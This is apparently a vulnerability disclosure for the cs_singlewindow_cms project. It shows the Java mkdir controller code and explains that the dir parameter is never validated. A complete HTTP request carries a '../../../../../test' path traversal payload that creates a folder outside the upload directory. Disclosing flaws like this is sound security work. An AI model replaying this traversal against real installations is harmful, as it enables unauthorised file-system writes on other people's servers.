

**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Software:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Vulnerability File:**

#### src/main/java/com/jspxcms/core/web/back/WebFileUploadsController.java

Controller:

```java
	@RequiresPermissions("core:web_file_2:mkdir")
	@RequestMapping(value = "mkdir.do", method = RequestMethod.POST)
	public String mkdir(String parentId, String dir, HttpServletRequest request, HttpServletResponse response,
			RedirectAttributes ra) throws IOException {
		return super.mkdir(parentId, dir, request, response, ra);
	}
```

Function implementation:

```java
	protected String mkdir(String parentId, String dir, HttpServletRequest request, HttpServletResponse response,
			RedirectAttributes ra) throws IOException {
		Site site = Context.getCurrentSite();
		parentId = parentId == null ? "" : parentId;
		String base = getBase(site);

		if (StringUtils.isBlank(parentId)) {
			parentId = base;
		}
		if (!Validations.uri(parentId, base)) {
			throw new CmsException("invalidURI");
		}
		FileHandler fileHandler = getFileHandler(site);
		boolean success = fileHandler.mkdir(dir, parentId);
		if (success) {
			logService.operation("opr.role.add", parentId + "/" + dir, null, null, request);
			logger.info("mkdir file, name={}.", parentId + "/" + dir);
		}
		ra.addFlashAttribute("refreshLeft", true);
		ra.addAttribute("parentId", parentId);
		ra.addFlashAttribute(MESSAGE, success ? OPERATION_SUCCESS : OPERATION_FAILURE);
		return "redirect:list.do";
	}
```

​	This code is in a new folder in the upload file, and after auditing, I found that although there is an interception here, the interception object is the parentId. The DIR is not intercepted, so we can construct the following packet.

```http
POST /cmscp/core/web_file_2/mkdir.do HTTP/1.1
Host: 172.21.87.148:8888
Content-Length: 25
Cache-Control: max-age=0
Origin: http://172.21.87.148:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.21.87.148:8888/cmscp/core/web_file_2/list.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: select_id=%2F1; open_ids=%2F1; _site=1; JSESSIONID=CA7DD070F74CFE10991C0475CE82606D
Connection: close

parentId=%2F1&dir=../../../../../test
```

​	You can create a test folder in the root path of your project.

